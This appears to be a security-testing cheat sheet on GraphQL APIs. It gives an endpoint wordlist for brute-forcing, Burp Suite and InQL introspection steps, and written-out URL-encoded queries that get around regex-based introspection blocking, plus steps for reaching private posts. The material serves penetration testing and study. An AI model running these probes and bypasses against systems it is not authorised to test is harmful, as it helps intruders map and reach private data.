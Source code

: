 ## Common end-point of GraphQL Api

In some cases GraphQL endpoint is not visible, so we can try to bruteforce the endpoint.
```
/graphql
/graphql/
/graphql/v1
/graphql/v2
/graphql/api
/graphql/endpoint
/graphql/query
/graphql/playground
/graphql-console
/graphql-explorer
/api
/api/graphql
/api/v1/graphql
/api/v2/graphql
/api/gql
/api/query
/api/data/graphql
/gql
/gql/
/gql/api
/gql/v1
/gql/v2
/gql/query
/backend/graphql
/internal/graphql
/dev/graphql
/v1/graphql
/v2/graphql
/server/graphql
/graphql-server
/graphql/engine
/graphql-service
/graphql-gateway
/graphql_dev
/graphql_beta
/graphql_test
/graphql_test_api
/query
/query/graphql
/graphql/queryEngine
/graph
/graph/query
/graphqljson
/json/graphql
/graphql.json
/graphqlapi
/graphqlinterface
/graphqlapi/v1
/graphql/graph
/graphql-service/v1
```

## Analyzing Graphql Api With Burp

We can analyze Graphql api in various way using Burpsuite. Here are some methodologies:

**Analyzing via Introspection :**

`Repeater > Graphql > Set Introspection Query > Send > GraphQL > Save GraphQL queries to site map > Target > Site map` 

**Analyzing via InQL :**

`InQL > Provide URL of the GraphQL Endpoint > Analyze`

## Bypassing GraphQL introspection defenses

In some cases, developers disable this Introspection feature. However we can bypass this by manually analyzing the endpoint.

1. **Bypass with special characters**:
   Developers may use weak regex to block `__schema`. You can insert characters like **spaces, newlines, or commas**, which are ignored by GraphQL but may bypass the regex.

   * Example:

     ```graphql
     query {
       __schema
       {
         queryType { name }
       }
     }
     ```

2. **Change request method**:
   Introspection may be disabled only for certain request types.

   * Try **GET** instead of **POST**.
   * Use `Content-Type: application/x-www-form-urlencoded` instead of JSON.

3. **Example GET request with encoded query**:

   ```
   GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
   GET /graphql?query=query%7B__schema%7Btypes%7Bname%7D%7D%7D
   GET /graphql?query=query%7B__type%28name%3A%22User%22%29%7Bfields%7Bname%7D%7D%7D
   GET /graphql?query=query%7B__schema%7Bdirectives%7Bname%20locations%7D%7D%7D
   GET /graphql?query=query%7B__schema%7BmutationType%7Bfields%7Bname%7D%7D%7D%7D
   GET /graphql?query=query%7B__schema%7BsubscriptionType%7Bfields%7Bname%7D%7D%7D%7D
   GET /graphql?query=query%7B__type%28name%3A%22User%22%29%7Bfields%7Bname%20args%7Bname%20type%7Bname%20kind%7D%7D%7D%7D%7D
   GET /graphql?query=query%7B__schema%0A%7BqueryType%0A%7Bname%7D%7D%7D
   GET /graphql?query=query%7B__typename%7D
   ```
For more: [Portswigger](https://portswigger.net/web-security/graphql#bypassing-graphql-introspection-defenses)

## Accessing private GraphQL posts

Step:
  1. Copy the url that have Graphql endpoint.
  2. InQL >> Paste url >> Analyze
  3. In the box below we can get the analyzed details of the Graphql api.
  4. Send the query to the repeater and modify the details if needed. 
  
